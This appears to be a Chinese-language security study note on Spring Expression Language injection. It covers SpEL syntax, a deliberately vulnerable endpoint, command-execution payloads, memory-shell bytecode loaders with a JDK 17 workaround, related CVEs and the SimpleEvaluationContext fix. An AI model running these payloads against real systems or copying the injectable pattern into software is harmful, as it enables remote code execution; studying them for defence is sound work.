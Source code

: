 # 0x01 What Is SpEL

SpEL：Spring Expression Language 一种表达式语言，支持在运行时查询和操作对象图，类似于EL表达式。

SpEL 的诞生是为了给 Spring 社区提供一种能够与Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。

SpEL基本语法：
SpEL使用 `#{...}`作为定界符，大括号内被视为SpEL表达式，里面可以使用运算符，变量，调用方法等。使用 `T()` 运算符会调用类作用域的方法和常量，如`#{T(java.lang.Math)}`返回一个java.lang.Math类对象

`#{}`和`${}`的区别：

* `#{}` 用于执行SpEl表达式，并将内容赋值给属性
* `${}` 主要用于加载外部属性文件中的值

SpEL常用在三个地方。

1. Value注解
   （注：这个类要通过依赖注入才能使Value注解生效，直接new对象是不行的）

   ```java
   package com.example.demo1.bean;
   
   import org.springframework.beans.factory.annotation.Value;
   import org.springframework.context.annotation.PropertySource;
   import org.springframework.stereotype.Component;
   
   @Component
   @PropertySource({"classpath:/configure.properties"})
   public class User {
       @Value("${spring.user.name}")
       public String userName; // 值来自application.properties
       @Value("${home.dorm}")
       public String address; // 值来自configure.properties(放在resources文件夹下)
       @Value("#{T(java.lang.Math).random()}")
       public double age;
       @Value("#{systemProperties['os.name']}")
       public String sys; // 注入操作系统属性
   }
   ```

   ```xml
   // configure.properties
   home.dorm=Room402,Unit4,Building3,No.34.LousyLoad
   // application.properti
   spring.user.name=Taco
   ```

   输出如下：
   `User{userName='Taco', address='Room402,Unit4,Building3,No.34.LousyLoad', age=0.5913714334107036, sys='Windows 10'}`

2. XML

   ```xml
   <bean id="Book" class="com.example.bean">
   	<property name="author" value="#{表达式}">
   </bean>
   ```

3. Expression接口

   ```java
   @Test
   public void spelTest() {
       ExpressionParser parser = new SpelExpressionParser();
       Expression expression = parser.parseExpression("('Hello '+'SpEL').concat(#end)");
       EvaluationContext context = new StandardEvaluationContext();
       context.setVariable("end", "!");
       System.out.println(expression.getValue(context));
   }
   ```

   输出`Hello SpEL!`

# 0x02 Way To Attack

实际情况下，一般都是基于上面第三种SpEL的使用场景出现的漏洞。
下面简单分析一下SpEL在求表达式值的过程

> 1.创建解析器 new SpelExpressionParser()
> 2.解析表达式 parseExpression(your_expression)
> 3.构造上下文 new StandardEvaluationContext() 默认为这个
> 4.求值 expression.getValue(context)

漏洞利用前提

> 1.服务器接收用户输入的表达式
> 2.表达式解析之后调用了getValue
> 3.使用StandardEvaluationContext作为上下文对象

```java
@RestController
public class SpELController {
    @GetMapping("spel")
    public String spel(@RequestParam(name="cmd")String cmd) {
        System.out.println("Hello SpEL!!!");
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(cmd);
        Object obj = expression.getValue();
        return obj.toString();
    }
}
```

这段代码中，可注入的点在请求参数cmd
访问`http://localhost:8080/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%27calc%27)`
成功弹出计算器

# 0x03 Injection Tricks

一些trivial的payload

```java
new java.lang.ProcessBuilder(new String[]{"caslc"}).start()
```

```java
T(java.lang.Runtime).getRuntime().exec("calc")
```

命令执行带返回结果的：

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("whoami").start().getInputStream())).readLine()
```

```java
new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream(), "GBK").useDelimiter("xxx").next()
```

利用js引擎可以实现更加复杂的操作，如注入内存马

```java
public static void main(String[] args) throws Exception {
    byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
    String s = Base64.getEncoder().encodeToString(bytes);
    String cmd = "T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(\"" + makeJsDefinedClass("EvilInterceptor", s) + "\")";
    System.out.println(cmd);
}

public static String makeJsDefinedClass(String classname, String encoded) {
    return "var data = '" + encoded + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var cls = java.lang.Class.forName('sun.nio.ch.Util');" +
        "var method = cls.getDeclaredMethod('unsafe');" +
        "method.setAccessible(true);" +
        "var unsafe = method.invoke(cls);" +
        "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();" +
        "var evil = unsafe.defineClass('" + classname + "', bytes, 0, bytes.length, classLoader, null);" +
        "evil.newInstance();";
}
```

这里利用的是`Unsafe`去`defineClass`加载字节码

实际上Spring框架中`org.springframework.cglib.core.ReflectUtils`就提供了一系列反射有关的方法，其中就包括了字节码加载`defineClass`。

```java
byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('EvilInterceptor',T(org.springframework.util.Base64Utils).decodeFromString('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()";
System.out.println(cmd);
```

高版本JDK（>=9）引入了命名模块机制，`java.*`下的非公开变量和方法不能被其他模块直接访问，JDK11还只会提示warning，而在JDK17中会强制开启，直接报错

上面的payload执行后会报错

> java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int,java.security.ProtectionDomain) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @635eaaf1

![image-20240517132913363](./../.gitbook/assets/image-20240517132913363.png)

`java.lang.ClassLoader#defineClass`不是公开方法，无法被其他模块访问



```java
byte[] bytes = ClassPool.getDefault().get("org.springframework.expression.EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.EvilInterceptor',T(java.util.Base64).getDecoder().decode('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName('org.springframework.expression.ExpressionParser'))";
System.out.println(cmd);
```





# 0x04 CVE To Study

* CVE-2022-22980 Spring Data MongoDB SpEL表达式注入
* CVE-2022-22963 SpringCloud Function SpEL表达式注入
* CVE-2022-22947 Spring Cloud Gateway 远程代码执行

# 0x05 Patch

`SimpleEvaluationContext`、`StandardEvaluationContext` 是 SpEL提供的两个 `EvaluationContext`

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用

用`SimpleEvaluationContext`替换默认的`StandardEvaluationContext`，就能有效防止恶意SpEL表达式的执行。

